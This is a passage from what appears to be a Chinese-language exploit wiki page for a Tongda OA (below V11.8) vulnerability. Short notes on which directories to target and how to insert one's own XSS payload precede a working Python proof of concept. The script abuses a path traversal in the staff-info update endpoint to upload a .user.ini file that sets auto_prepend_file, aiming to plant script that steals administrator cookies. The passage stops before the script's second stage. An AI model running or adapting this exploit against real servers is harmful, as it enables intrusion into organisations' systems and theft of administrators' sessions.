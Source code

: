 用同样的方法上传利用文件，每次当管理员设置时就会盗取Cookie

## 漏洞利用POC

>因为是xss可能对目标有影响，所以这里POC在一个不常用目录探测是否存在漏洞
>
>Cookie填写访问后台时的Cookie, 其中的base64解码更改 PeiQi_Wiki为 自己的XSS语句
>
>v11.6及以下 攻击 /general 和 /general/system/attachment 目录较好
>
>v11.6以上 攻击  /general/system/attachment 目录较好

```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkuaW5pIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCmF1dG9fcHJlcGVuZF9maWxlPXBlaXFpLmxvZwotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
```